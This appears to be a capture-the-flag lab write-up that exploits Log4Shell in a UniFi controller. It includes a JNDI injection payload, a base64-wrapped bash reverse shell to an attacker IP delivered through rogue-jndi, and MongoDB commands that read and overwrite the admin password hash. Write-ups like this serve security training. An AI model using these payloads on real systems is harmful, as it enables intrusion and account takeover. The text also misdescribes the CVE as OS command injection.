





# Unified

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  Vulnerability Assessment  
  Databases  
  Custom Applications  
  MongoDB  
  Java  
  Reconnaissance  
  Clear Text Credentials  
  Default Credentials  
  Code Injection  

#### Description
  Exploring effects of exploiting Log4j in UniFi. 

#### **Initial Enumeration**
  22/tcp   : ssh             : OpenSSH 8.2p1 Ubuntu
  6789/tcp : ibm-db2-admin?
  8080/tcp : http-proxy
  8443/tcp : sql/nagios-nsca : Nagios NSCA

#### **Port 8443**
  It appears taht port 8080 is redirecting to port 8443. 

  
  
  Finding the version number of the UniFi software, we can do a bit of research to find that 6.4.54 also known as <code>CVE-2021-44228</code>. This vulnerability involves OS command injection, so commands on the server that the application is running on can be used to compromise the application. The steps laid out in this exploit are to establish a reverse shell, then escalate privileges to access the database. 

#### **BurpSuite Proxy**
  Our first plan of attack is to find a way to upload a payload to the server to create a reverse shell. Using BurpSuite we can take a look at what the request looks like if we try to sign in with random credentials. 

  

  According to the CVE report, we can inject our payload through the <code>remember</code> field in the JSON being sent to the /api/login endpoint. The payload would look something like this:
  ```
    ${jndi:ldap://10.10.14.40}/{stuff}
  ```
  *JDNI* stands for *Java Naming and Directory Interface API* which locates resources and other program objects. A resource is a program object providing connections to systems like database servers and messaging systems. *LDAP* or *Lightweight Direcotry Access Protocol* is the industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or Network. **Default port for LDAP is port 389**.

  Sending the payload above, we get the following response:

  

#### **Tcpdump**
  *Tcpdump* is a packet analyzer that runs in cli to display TCP/IP and other packets running through the network the computer is attached to. 
  ``` bash
    sudo tcpdump -i tun0 port 389

    # tcpdump : cli version of wireshark
    # -i      : selecting interface
    # port    : select port we are listening on
  ```
  Running the payload again still results in an error, however we can see that the target machine is trying to connect through LDAP port. 

#### **Creating the Payload**
  *Maven* is an IDE to create a structured project and compile into jar files. The applications that we create should help us to run <code>rogue-jndi</code> to start a local LDAP server. 
  ``` bash
    mvn package
  ```
  Use the command above to build the .jar from the cloned rogue-jndi project. To use *Rogue-JNDI* to construct server and pass the payload, base64 will be used to prevent encoding issues:
  ``` bash
    echo 'bash -c bash -i >&/dev/tcp/{your_ip}/{port_of_choice} 0>&1' | base64
  ```

  To pass the payload we can use the <code>--command</code> option:
  ``` bash
    java -jar {filename}.jar --command "bash -c {echo,{BASE64_STRING} | {base64,-d} | {bash,-i}" --hostname "{TUN0_IP}"
  ```

  After running Rogue-JNDI, the process starting will look like this: 
  

  The last link is the one to put into the payload to be captured by a listener like a server started on netcat. 

#### **Escalating Privileges**
  The first thought after gaining access to the target machine, is to look for the database and find a way to increase our permissions. For example, let's say we know that MongoDB is running on this machine, we can write:
  ``` bash
    ps aux | grep mongo

    # To check if Mongo is running on the target
  ```
  Running this on the target we find that MongoDB is running on port 27117. We can use the MongoDB CLI service to search for any hints of the administrator password for the application. A google shows us that the default UniFi database name is <code>ace</code>. A command for reading credential entries would look like this:
  ``` bash
    mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
  
    # --port PORT   : connect to PORT
    # ace           : database name
    # --eval SCRIPT : evaluate JSON
  ```
  Running this we find: 

  

  Reading the JSON, we find that there is a password hash in the field <code>x_shadow</code> but it can not be cracked. So what we can do is change the hash to replace the admin password. We can do this using <code>mkpasswd</code>:
  ``` bash
    mkpasswd -m sha-512 Password1234
  ```
  *SHA-512* or *Secure Hash Algorithm 512* is a hashing algorithm to convert text of any length into a fixed-size string of 512 bits. SHA-512 hashes are different everytime they're generated due to *salting* to force uniqueness and increase complexity. Using the new hash, we can update the administrator entry in Mongo through:
  ``` bash
    mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"{SHA-512 HASH}"}})'
  ```
  Using the new password we can access the admin panel, find the password and SSH into the root account for the system. 